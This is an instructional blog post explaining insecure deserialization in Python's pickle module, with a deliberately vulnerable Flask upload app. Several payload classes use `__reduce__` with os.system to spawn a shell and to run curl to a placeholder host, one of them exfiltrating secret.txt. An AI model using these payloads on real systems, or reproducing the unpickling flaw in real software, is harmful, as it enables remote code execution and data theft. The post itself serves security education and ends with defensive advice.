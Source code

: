 ```yaml
---
title: "Insecure Deserialization: Introduction"
date: 2020-12-22T14:38:40-07:00
draft: false
toc: true
categories:
  - instructional
images: ["/images/InsecureDeserializationIntro.jpg"]
tags:
  - insecure-deserialization
  - web
---
```


Insecure deserialization is a prolific vulnerability that provides a pretty straightforward gateway into unintended RCE - if you're not careful. As of late, I've seen more and more CTFs employ this bug, and more real-word bug bounties deal with this kind of exploit. I figure I could provide a quick introduction into them, and hopefully ensure a few people secure their applications from this. 

## Context

{{< image src="/images/InsecureDeserializationIntro.jpg" alt="intro" position="center" style="border-radius: 8px;" >}}

### What Even is Serialization?
My CPSC210 class I learned the fundamentals of object-oriented programming and the concept of complex abstractions above simple data structures: From simple arrays to instances of objects or classes, with fields and properties holding specific type values. Classes and complex data structures are great and all, but how do you manage them in transit across the web? Can they even be efficiently and losslessly transfered between machines? Or maybe there's some sort of practise we can use to streamline this?

The process of serialization seeks to simplify the concept - it's the act of taking any object and converting it into some workable format of a stream of bytes for ease of transfer and transition. It can be thought of as "flattening" said object and transferring that flattened version to wherever it needs to go. This "flattened version" could be anything from JSON data, XML, maybe just a bunch of bytes, or a specific string - it all depends on the language.

{{< image src="/images/InsecureDeserializationIntro_Serial.jpg" alt="Serial" position="center" style="border-radius: 8px;" >}}

Of course, the opposite process is called deserialization: taking that flattened byte stream and recreating a copy of the original object from it. It will reconstruct any properties, fields from the stream and hopefully present a working replica of the original.

{{< image src="/images/InsecureDeserializationIntro_Deserial.jpg" alt="secret" position="center" style="border-radius: 8px;" >}}

The serialization process is a key component to ensure that all the parts of a system are working together and seamlessly, operating in all sorts of different formats but still managing to easily convert data from some base byte stream into a workable object for their use. But it's not without its own flaws. In many cases, it's not totally lossless. 

### Backup Directives

When serializing objects, one thing to note is that some properties or connections will not completely transfer over during the process. In that case, there should be some sort of backup plan or emergency what-to-do in those situations. This blueprint will vary from language to language, but often you'll see it as some directive that tells the deserializer what to do when it encounters a foreign property. As an example, Python's [pickle](https://docs.python.org/3/library/pickle.html) module - the native serializing library in Python - uses a magic function called `__reduce__()` to stipulate what should be done in case not everything was perfectly translated from their bytestream form. 

`__reduce__()` in particular tells the pickle module how to handle things directly within the definition of the class. Specifying this interface will allow us to manually reconstruct potentially complicated properties, such as database connections or open file handles. Of course, there exist unintended ways of using the ``__reduce__()`` directive. 

## Insecure Deserialization

Serialization is not inherently bad, and it's a very important tool in many infrastructures today. What makes it vulnerable is, like with many different practises, improper handling of its inputs. Insecure deserialization typically arises when applications feed user input into their deserializers, which wasn't properly cleaned/sanitized. 

Refer back to Python's pickle module once more. It uses the `__reduce__()` directive for edge cases where properties are not properly reconstructed from their stream form. However, if the input that you're giving your pickler is from some external user, you lay yourself bare for RCE. 

`__reduce__()` can be used to stipulate potentially dangerous commands, such as opening a reverse shell to a server you control. This is, unfortunately, necessary functionality for the pickle module to have in order to operate smoothly. Consider the following example:

```py
import pickle
import os

class DontDoThis(object):
	def __reduce__(self):
		return (os.system, ("/bin/sh", ))


EvilExample = DontDoThis()

pickle.dump(EvilExample, open("save.p", "wb"))

my_data = pickle.load(open("save.p", "rb"))
```
Observe that this script will deserialize an instance of `DontDoThis`, and will come across the ``__reduce()__`` method. It will then do whatever ``__reduce()__`` tells it to do, which is to open an `sh` shell.

Let's see another example:

_(Some parts omitted)_
```py
import pickle
import os
from flask import Flask, request, redirect, url_for
from werkzeug.utils import secure_filename

app = Flask(__name__)
UPLOAD_FOLDER = '/directory/to/webserver'

app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER

@app.route('/', methods=['GET', 'POST'])
def notes_post():
    if request.method == 'GET':
        return '''
        <!doctype HTML>
        <title>Upload new File</title>
        <h1>Upload new File</h1>
        <form method=post enctype=multipart/form-data>
          <input type=file name=file>
          <input type=submit value=Upload>
        </form>
        '''
    if request.method == 'POST':

        file = request.files['file']

        filename = secure_filename(file.filename)
        file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))

        return "thaaanks!"

...

@app.route('/uploads/<filename>')
def note():
    my_data = pickle.load(filename, "rb")

    return "your file was succesfully deserialized~"
```

I made this toy application to explain this process. The expected application flow is that our program is going to take a file defined by the user and store it in the webserver. For ease of use and convenience, the application _assumes_ that the files provided by the user are able to be deserialized. You can request for an object back, and when you do so, it gets deserialized. 

{{< image src="/images/InsecureDeserializationIntro_fileUpload.png" alt="secret" position="center" style="border-radius: 8px;" >}}

So, the expected input is any sort of user-provided file. What happens when we provide it a file generated from this script?

```py
class Hello(object):
	def __reduce__(self):
		return (os.system, ("curl http://your.server.HERE --data \"hello\"", ))

EvilExample = Hello()


pickle.dump(EvilExample, open("hello.p", "wb"))
```

If you're this far into the blog post, you probably already have a good idea of what could happen to our program. The file we create, `hello.p`, will get serialized, but as soon as we request for it... 

{{< image src="/images/InsecureDeserializationIntro_hello.png" alt="hello" position="center" style="border-radius: 8px;" >}}

Our class will be deserialized, and make a POST request to a webhook with "hello" in the request body. This webhook we have access to, so we can see the POST request after deserialization.

We can extrapolate this example further and open a reverse shell, or have the program unintentially pipe sensitive files to a server we control. 

```py
class Secret(object):
	def __reduce__(self):
		return (os.system, ("curl http://your.server.HERE --data \"$(cat secret.txt)\"", ))

EvilExample = Secret()


pickle.dump(EvilExample, open("secret.p", "wb"))
```

Let's say that there's a file called `secret.txt` in the directory of the application that looks like so:

```text
this is a secret~
```

When we submit the generated file from this script (`secret.p`) and request for it, we can see in our webhook that the contents of `secret.txt` have succesfully been outputed to us in the body of a POST request: 

{{< image src="/images/InsecureDeserializationIntro_secret.png" alt="secret" position="center" style="border-radius: 8px;" >}}

The possibilities are endless. Of course, this is just a toy application I'm running locally to showcase this, but regardless the dangers are still plain to see. RCE is remarkably easy to achieve and scarily straightforward to do if your deserializer is not properly secured. In fact, that's part of the exploit used in hacking [DragonCTF's Harmony Chat](/posts/2020/11/dragonctf-2020-harmony-chat/), although their serializer was a Javascript variant, not a Python one. 

So what's the takeaway here? If you can help it, never deserialize user-provided input. Of course, there do exist situations where you absolutely cannot avoid it, and I would recommend properly sanitized input or some signature that can act as a canary should anything in the user input change. 

Insecure deserialization is a pretty dangerous vulnerability, and also a pretty easy one to exploit if you know where to look for it. As mentioned earlier, it's seeing prolific exposure in the CTF world, and justifiably so - there are many [real world vulnerabilities](https://www.linkedin.com/pulse/equifax-data-breach-apache-struts-vulnerability-kenneth-g-/) today that are based on serialization functionality but don't have the security to match up for it. If you're using serialization libraries or modules, make sure to be careful! 

**Vie**

